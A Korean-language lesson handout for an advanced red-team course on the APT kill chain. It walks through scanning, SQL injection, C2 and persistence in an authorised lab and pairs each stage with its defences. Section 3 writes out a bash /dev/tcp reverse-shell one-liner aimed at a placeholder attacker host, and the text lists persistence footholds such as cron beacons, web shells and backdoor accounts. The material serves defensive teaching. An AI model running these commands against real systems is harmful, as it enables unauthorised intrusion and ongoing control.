




# 공격고급 W01 — APT 킬체인: 한 번의 익스플로잇이 아니라 캠페인이다

> **본 주차의 한 줄 요약**
>
> 입문 과정의 공격은 "취약점 하나 → 익스플로잇 하나"였다. 그러나 현실의 정교한 공격(APT)은 **단발이 아니라
> 캠페인**이다 — 정찰로 표면을 훑고, 열거로 약점을 좁히고, 침투하고, 발판을 심어 지속하고, C2로 통제하고,
> 마침내 데이터를 빼낸다. 본 주차에 학생은 el34의 **모의침투 박스(el34-attacker)** 에서 인가된 표적에 이
> **킬체인 전 단계**를 직접 실행하며, 각 단계의 도구(nmap·gobuster·sqlmap·nc)와 기법을 손에 익힌다.
>
> **레드팀 한 줄 결론**: 공격을 배우는 목적은 파괴가 아니라 **방어를 깊이 이해하는 것**이다. 각 킬체인
> 단계가 방어자에게 어떤 흔적을 남기는지 알아야(OPSEC), 그 단계를 막는 방어를 설계할 수 있다 — 공격과 방어는
> 같은 동전의 양면이다.

---

## ⚠️ 윤리·법적 고지 (반드시 숙지)

본 과정의 모든 공격 기법은 **인가된 실습 환경(el34)에서, 교육 목적으로만** 수행한다. 허가 없이 타인의
시스템을 공격하는 것은 **범죄**(정보통신망법 등)다. 실습에서 배운 기법은 ① 본인이 소유하거나 ② 명시적
서면 허가를 받은 시스템에만 사용한다. 모든 실습 흔적은 self-clean한다.

---

## 학습 목표

본 주차 종료 시 학생은 다음 5가지를 **본인 손으로** 할 수 있어야 한다.

1. **APT 킬체인**(정찰→열거→침투→발판→지속성/C2)의 단계와 목적을 설명한다.
2. **정찰**(nmap 스텔스 스캔)과 **열거**(디렉터리/엔드포인트 발견)를 수행한다.
3. **침투**(SQLi 익스플로잇)에 **귀속 태그**를 붙여 실행한다.
4. **발판/C2**(리버스 셸)와 **지속성**(cron 비콘)의 메커니즘을 안다.
5. 각 단계가 남기는 **흔적(OPSEC)** 과 **귀속**(출처 IP 보존)을 방어자 관점에서 설명한다.

---

## 0. 용어 해설

| 용어 | 영문 | 뜻 | 비유 |
|------|------|----|------|
| **킬체인** | kill chain | 공격의 단계적 흐름 | 작전 단계 |
| **APT** | Advanced Persistent Threat | 지능형 지속 위협 | 장기 잠입 작전 |
| **정찰** | reconnaissance | 표적 정보 수집(T1046) | 사전 답사 |
| **열거** | enumeration | 서비스·경로 상세 파악 | 건물 도면 입수 |
| **익스플로잇** | exploit | 취약점 악용 코드/행위(T1190) | 자물쇠 따기 |
| **발판** | foothold | 침투 후 첫 거점 | 잠입 후 은신처 |
| **C2** | Command and Control | 공격자의 원격 통제 채널(T1071) | 작전 통신망 |
| **리버스 셸** | reverse shell | 피해자가 공격자로 역접속 | 안에서 문 열어주기 |
| **지속성** | persistence | 재부팅에도 살아남는 접근(T1053) | 영구 출입증 위조 |
| **귀속 태그** | attribution tag | 내 공격을 식별하는 표식(UA 등) | 작전 식별 코드 |
| **OPSEC** | operational security | 공격자의 흔적 관리 | 작전 보안 |

> **헷갈리기 쉬운 한 쌍 — 바인드 셸 vs 리버스 셸.** **바인드 셸**은 피해자가 포트를 열고 공격자가 접속한다
> — 그러나 인바운드 방화벽이 막는다. **리버스 셸**은 피해자가 공격자에게 **역접속(아웃바운드)** 한다 —
> 아웃바운드는 대개 허용되므로 방화벽을 자연스럽게 회피한다. 그래서 현대 C2는 거의 리버스(역접속) 방식이다.
> 방어자는 이를 막으려 **아웃바운드 통제**(나가는 연결 감시)를 한다.

---

## 0.5 핵심 개념

### 0.5.1 킬체인 5단계 × 도구 × ATT&CK — 한 장의 지도

| 단계 | 하는 일 | 도구 | ATT&CK | 방어 |
|------|---------|------|--------|------|
| 정찰 | 표면 파악(포트 스캔) | nmap -sS | T1046 | IDS(Suricata) |
| 열거 | 숨은 경로 찾기 | ffuf/nc | — | 웹 로그 |
| 침투 | 취약점 악용(SQLi) | sqlmap/nc | T1190 | WAF(ModSec) |
| 발판/C2 | 통제 채널 | nc 리스너 | T1059/T1071 | 아웃바운드 통제 |
| 지속성 | 재접속 거점 | cron 비콘 | T1053 | osquery 헌팅 |

이 표가 W01의 지도다 — 각 단계를 그 도구로 실행하고, 각 단계가 어느 방어에 잡히는지(공격↔방어 대칭)를 본다.

### 0.5.2 귀속 태그(`aa01r1`)란 — 내 공격을 노이즈에서 구분한다

el34는 공유 환경이라 여러 학생·자동 봇의 공격이 섞인다. 그래서 침투할 때 **고유 태그**(User-Agent
`aa01r1-student`, URL 파라미터 `t=aa01opsec` 등)를 단다. 이건 공격력과 무관한 **식별표**다 — 모의훈련 채점이
"이 공격은 이 학생 것"이라고 가리고, 블루팀이 로그에서 내 흔적을 상관하는 데 쓴다. `aa01`=attack-adv W01,
`r1`=라운드1, `beacon`/`opsec`=용도. 실제 공격자는 거꾸로 태그를 숨기지만, 교육에선 추적성을 위해 일부러 단다.

### 0.5.3 nmap 플래그 읽기 — `-sS -T2 --top-ports 100`

| 플래그 | 의미 |
|--------|------|
| `-sS` | SYN(half-open) 스캔 — 핸드셰이크 미완성, 비교적 은밀 |
| `-T2` | 타이밍 2(저속) — IDS의 "짧은 시간 다수 연결" 임계를 피하려 함 |
| `--top-ports 100` | 가장 흔한 100개 포트만 |

`-sS -T2` 는 "은밀·저속"을 노리지만 **완벽한 회피는 아니다** — el34 Suricata는 저속 스캔도 흔적을 남긴다
(STEP 7에서 방어자 관점으로 확인). 공격자의 OPSEC과 방어자의 탐지는 끝없는 창과 방패다.

### 0.5.4 el34의 함정 — gobuster는 깨져 있다(ffuf를 쓴다)

교재·실무에서 디렉터리 열거는 보통 `gobuster` 다. 그런데 **el34-attacker의 gobuster는 인자 파싱이 깨져 실제로
동작하지 않는다.** 그래서 실습은 `ffuf -u http://dvwa.el34.lab/FUZZ -w <wordlist>` 나
`nc` 직접 확인으로 대체한다. 도구가 "있다"고 "동작한다"는 보장이 아니다 — 환경마다 검증하고 대체법을 둔다.

### 0.5.5 임의로 보이는 값들

| 값 | 무엇 | 규칙 |
|----|------|------|
| **aa01r1-student / aa01beacon / aa01opsec** | 귀속 태그 | aa=attack-adv, 01=주차, 용도(r1/beacon/opsec) |
| **포트 55001** | C2 리스너 포트 | 실습용 임의 고포트 |
| **192.168.0.202 / 192.168.0.202** | 공격자 출처 | 외부 VM / 내부 발판(SNAT 없어 보존) |
| **마커(`recon_done` 등)** | 단계 완료 신호 | 채점이 통과를 확인하는 약속 문자열 |

---

## 1. 단발 공격 vs APT 캠페인

### 1.1 한 줄 답: 목표는 침투가 아니라 "지속적 통제"다

스크립트 키디는 취약점 하나로 침투하고 끝낸다. APT의 목표는 다르다 — **들키지 않고 오래 머물며** 정보를
빼내거나 통제권을 유지하는 것이다. 그래서 침투는 시작일 뿐, 발판·지속성·C2가 본론이다.



### 1.2 왜 배우는가 — 방어를 위해

각 단계는 방어자에게 다른 흔적을 남기고 다른 방어를 요구한다. 정찰은 IDS로, 침투는 WAF로, C2는 아웃바운드
통제로, 지속성은 헌팅으로 막는다. **공격 단계를 알아야 그 방어를 설계**할 수 있다 — 이것이 레드팀 교육의 본질.

### 1.3 한계 — 완벽한 은신은 없다

el34는 출처 IP를 전 계층에 보존한다(SNAT 없음). 아무리 은밀해도 흔적은 남고, 방어자는 그것을 상관한다(§4).
공격자의 OPSEC과 방어자의 상관은 끝없는 창과 방패다.

---

## 2. 정찰 · 열거 · 침투



**실측 예 — 정찰.**

```bash
nmap -sS -T2 --top-ports 100 10.20.30.1 | grep -E "open|PORT" | head
```

```
PORT     STATE    SERVICE
22/tcp   open     ssh
80/tcp   open     http
443/tcp  open     https
```

22(SSH)·80/443(웹)이 공격 표면. **열거** — 발견한 웹 서비스의 숨은 경로를 ffuf/nc로 찾아 공격 지점을
좁힌다(gobuster는 깨짐, §0.5.4). **침투** — 취약점(SQLi)을 악용하되, **고유 태그**(UA `aa01r1-student`)를
붙여 내 공격을 노이즈와 구분한다(귀속, §0.5.2). 실무에선 sqlmap이 SQLi 탐지·악용을 자동화한다. SQLi는 보통
403(WAF 차단)이지만, **차단돼도 시도+태그는 로그에 남는다.**

---

## 3. 발판 · C2 · 지속성



**발판/C2** — 침투 후 `bash -i >& /dev/tcp/공격자/55001 0>&1` 같은 리버스 셸로 피해자가 공격자에게 역접속
한다(아웃바운드라 방화벽 회피, §0.5.1). 실습 STEP 5는 nc 리스너를 로컬 루프백으로 띄워 임플란트 명령이 실제
수신되는지(`implant_cmd` grep) 검증하고 self-clean한다 — **가짜 echo가 아니라 채널이 진짜 도는지** 본다.
**지속성** — 세션이 끊겨도 다시 접근하려고 cron 비콘(매분 C2 재호출)·systemd·웹셸·SSH 키·백도어 계정을
심는다. **그러나** 이 모든 거점은 방어자에게 흔적이다 — cron·계정·열린 포트는 soc-adv W06 헌팅(osquery
`on_disk=0`·`listening_ports`)에 그대로 잡힌다.

---

## 4. OPSEC · 귀속 — 창과 방패



공격자는 흔적을 최소화하려 하고(OPSEC — 저속 스캔, 로그 삭제, 난독화), 방어자는 흔적을 상관하려 한다.
**실측 예 — 내 흔적 확인(STEP 7).**

```bash
# el34-attacker: 태그 단 공격
ssh att@192.168.0.202 'whatweb -a1 --user-agent aa01opsec "http://dvwa.el34.lab/?t=aa01opsec"'  >/dev/null
# el34-web: 타깃 로그에 남은 내 흔적
grep -c aa01opsec /var/log/apache2/dvwa_access.log
```

내가 단 태그(aa01opsec)가 타깃 로그에 그대로 남는다 = 방어자가 출처 IP+태그로 '이 공격은 누구의 것'이라고
귀속할 수 있다. el34는 출처 IP를 보존하므로 정찰·침투·C2가 모두 같은 IP로 묶인다(soc-adv W15 교차 상관).
공격을 배우며 "내가 무슨 흔적을 남기는가"를 아는 것이, 거꾸로 방어 설계의 핵심이 된다.

---

## 5. 실습 안내 (8 미션)

각 미션을 **① 왜 하는가 / ② 무엇을 알 수 있는가 / ③ 결과 해석 / ④ 실전 활용** 4축으로 설명한다. 명령은
공격자 VM(`ssh att@192.168.0.202`)에서 실행한다. **인가된 표적(10.20.30.1)에만**, 발판/지속성은 메커니즘
데모(표적 미변경)·self-clean. **외부 시스템 공격 절대 금지.**

### STEP 1 — 환경·표적 확인
- **왜**: 킬체인 시작 전 도구·표적 준비 확인.
- **무엇을**: nmap/sqlmap/hydra/nc 가용 + dvwa 도달.
- **해석**: toolkit_ok + target=302(`recon_env_ready`). gobuster는 깨짐(§0.5.4).
- **실전**: 작전 전 무기·표적 점검.

### STEP 2 — 정찰 (T1046)
- **왜**: APT 1단계는 정찰.
- **무엇을**: `nmap -sS -T2 --top-ports 100`.
- **해석**: 열린 포트=공격 표면(`recon_done`). 저속이어도 Suricata에 흔적.
- **실전**: 표면 파악 후 다음 단계 좁히기.

### STEP 3 — 열거
- **왜**: 웹 서비스의 숨은 경로로 공격 지점 좁히기.
- **무엇을**: 후보 경로 응답코드(nc; 대량은 ffuf).
- **해석**: 200/301/302=존재(`enum_done`). gobuster 깨짐→ffuf.
- **실전**: 공격 표면을 구체 엔드포인트로.

### STEP 4 — 침투 (T1190)
- **왜**: 발견 취약점(SQLi)으로 데이터 탈취 시도.
- **무엇을**: SQLi UNION + UA 태그 aa01r1-student.
- **해석**: 403(차단)이어도 시도+태그 기록(`exploit_done`). 태그=귀속.
- **실전**: sqlmap이 실무 자동화. 태그로 채점·상관.

### STEP 5 — 발판/C2 (T1059/T1071)
- **왜**: 침투 후 지속 통제 채널 필요.
- **무엇을**: nc 리스너(C2) + 임플란트 명령 수신 검증.
- **해석**: 명령 실수신(`foothold_channel_ok`). 실전은 리버스 셸(아웃바운드 회피).
- **실전**: 로컬 루프백 안전 시연 + self-clean.

### STEP 6 — 지속성 (T1053)
- **왜**: 세션 끊겨도 재접근.
- **무엇을**: cron 비콘 항목(aa01beacon) 실작성.
- **해석**: 비콘 작성(`persistence_planted`). 매분 C2 재접속. osquery 헌팅에 잡힘.
- **실전**: /tmp 안전 시연 + self-clean. 공격↔방어 대칭.

### STEP 7 — OPSEC/귀속
- **왜**: 공격자도 흔적을 남긴다 — 완벽한 은신은 없다.
- **무엇을**: 태그(aa01opsec) 공격 → 타깃 로그 흔적.
- **해석**: 로그에 태그 남음(`opsec_trace_left`). 출처 IP+태그로 귀속.
- **실전**: 내 흔적을 알아 방어를 설계(레드팀 교육 본질).

### STEP 8 — 킬체인 보고서
- **왜**: 공격을 알아야 방어를 설계 — 보고서에 방어 권고까지.
- **무엇을**: 정찰 결과를 인용한 킬체인 보고서 골격.
- **해석**: 실측 인용(`killchain_report_done`). 단계별 방어 권고 포함.
- **실전**: 정찰→IDS, 침투→WAF, C2→아웃바운드, 지속성→헌팅.

---

## 6. 흔한 오해·블루팀 노트

- **"침투하면 끝"** — APT의 본론은 발판·지속성·C2다. 침투는 시작일 뿐(§1.1).
- **"저속 스캔이면 안 들킨다"** — `-T2` 도 Suricata에 흔적을 남긴다. 완벽한 회피는 없다(§0.5.3).
- **"도구가 있으면 동작한다"** — el34 gobuster는 깨졌다. 검증하고 대체(ffuf)를 둔다(§0.5.4).
- **"공격 배우면 나쁜 짓"** — 목적은 방어 설계다. 각 흔적을 알아야 그 단계를 막는다(공격↔방어 양면).

---

## 7. 다음 주차 (W02) 예고 — OSINT·정찰 심화

W01의 정찰은 능동 스캔(표적이 알 수 있음)이었다. W02는 표적이 모르게 정보를 모으는 **수동 정찰(OSINT)** —
공개 정보·DNS·인증서·메타데이터로 공격 표면을 그리는 법을 다룬다. 능동 정찰이 흔적을 남긴다면, 수동 정찰은
흔적 없이 표면을 그린다.
